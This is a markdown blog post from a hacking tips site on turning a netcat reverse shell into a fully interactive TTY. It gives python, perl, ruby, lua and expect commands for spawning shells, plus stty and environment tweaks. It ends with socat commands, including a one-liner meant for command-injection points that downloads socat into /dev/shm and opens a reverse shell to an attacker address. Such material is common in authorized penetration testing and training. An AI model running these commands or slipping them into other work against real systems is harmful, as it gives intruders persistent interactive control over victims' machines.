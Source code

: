 ```yaml
---
description: >-
  How to upgrade a linux reverse shell to a fully usable TTY shell
title: Upgrade a linux reverse shell to a fully usable TTY shell                    # Add title of the machine here
date: 2021-04-29 08:00:00 -0600                           # Change the date to match completion date
categories: [Tips & Tricks]                     # Categories
tags: [hacking, redteam, tips-n-tricks, python, linux, macos]     # TAG names should always be lowercase; add relevant tags
show_image_post: true                                    # Change this to true
#image: /assets/img/                # Add image here for post preview image
---
```


![Hack responsibly disclaimer](/assets/markups/1-hack-responsibly.svg)

## Upgrading remote shells

After catching a shell through netcat, you are placed in a shell that has very limited functionality. If the remote machine has python or python3 installed you can easily upgrade to a fully functional TTY shell.

 **Note:** To check if the shell is a TTY shell use the `tty` command.
 
You can also mitigate some of the restrictions of poor netcat shells by wrapping the netcat listener with the `rlwrap` command.  This is not installed by default so you will need to install it using `sudo apt rlwrap`.

```bash
rlwrap nc -lvnp $port
```

## Upgrade to fully interactive shell using Python:

1. First, after recieving your reverse shell you need to check the availability of Python. You can do this with the `which` command.

```bash
which python python2 python3
```

If any of these are installed, this command will return the full path of the installed binary.  Note: The `which` command will only report programs that are installed in a folder that exists in `$PATH`.  Python will almost always be in a `$PATH` directory so this should not be an issue.

2. Next, on the victim machine type the below command (using the version of python that is available on the machine!)

```bash
python -c 'import pty;pty.spawn("/bin/bash")'; #spawn a python psuedo-shell
```

Your command prompt may or may not change to reflect the new shell.  If it does not change, do not panic as this is configured locally and will depend on setting on the machine you are on.

3. Next, type `ctrl-z` to send your shell to the background.

4. On your attack platform, you will need to set up your shell to send control charcters and other raw input through the reverse shell.  You can do this by using the `stty` command as below.

```bash
stty raw -echo
stty size 
```

The second command above will report the size of your terminal window in rows and columns.  This is useful for command output that either fills the whole terminal (such as when using commands such as `nano` or `vim`) or that would output lines that are too long to fit in the window.  Fixing the window size will allow for word-wrapping instead of cutting off output that is too long.

5. After that, type the command `fg` to return the reverse shell to the foreground.

6. Next, on victim machine type the below commands to set some important environment variables.

```bash
export SHELL=bash
stty rows $x columns $y #Set remote shell to x number of rows & y columns
export TERM=xterm-256color #allows you to clear console, and have color output
```

Viola!  You should now be the proud owner of a shiny new fully upgraded TTY shell with command history.  It will also allow you to use commands such as `ctrl-c` to kill remotely ruing processes rather than your own shell! Enjoy!


## Using Other Scripting Languages:

Below are some examples of other scripting languages that can be used to achieve the same upgraded shell as the second step above.  Afterwards follow along from step 3.

```python
echo os.system('/bin/bash')
/bin/sh -i

#python3
python3 -c 'import pty; pty.spawn("/bin/sh")'

#perl
perl -e 'exec "/bin/sh";'

#ruby
exec "/bin/sh"
ruby -e 'exec "/bin/sh"'

#lua
lua -e "os.execute('/bin/sh')"
```

## Using “Expect” To Get A TTY

If you’re lucky enough to have the [Expect](http://en.wikipedia.org/wiki/Expect) language installed just a few lines of code will get you a good enough TTY to run useful tools such as “ssh”, “su” and “login”.

Create a script called `sh.exp`

```bash
#!/usr/bin/expect
# Spawn a shell, then allow the user to interact with it.
# The new shell will have a good enough TTY to run tools like ssh, su and login
spawn sh
interact
```

## Using socat

Another option is to upload the binary for `socat` to the victim machine and magically get a fully interactive shell. Download the appropriate binaries from [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries). Socat needs to be on both machines for this to work.

```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.15.100:4444
```

## socat one-liner

This one-liner can be injected wherever you can get command injection for an instant fully interactive reverse shell. Point the path to the binary to your local http server if internet access is limited on the victim.

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /dev/shm/socat; chmod +x /dev/shm/socat; /dev/shm/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.15.100:4444
```

### Disclaimer

Note: The methods above will not work in every situation.  For example, I have regularly run into a problem on my Kali machine where attempting to use `stty raw -echo` while using `zsh` as my shell will cause the entire terminal to become unusable.  I have gotten around this issue by switching to `bash` before I start any netcat listener that I will be using to catch a shell.

## Other Examples

If you have any other examples of methods of upgrading reverse shells, or have any other fun or useful tips or tricks, feel free to contact me on Github at https://github.com/zweilosec or on social media!

If you like this content and would like to see more, please consider buying me a coffee! <a href="https://www.buymeacoffee.com/zweilosec"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me a coffee&emoji=&slug=zweilosec&button_colour=FFDD00&font_colour=000000&font_family=Lato&outline_colour=000000&coffee_colour=ffffff"></a>

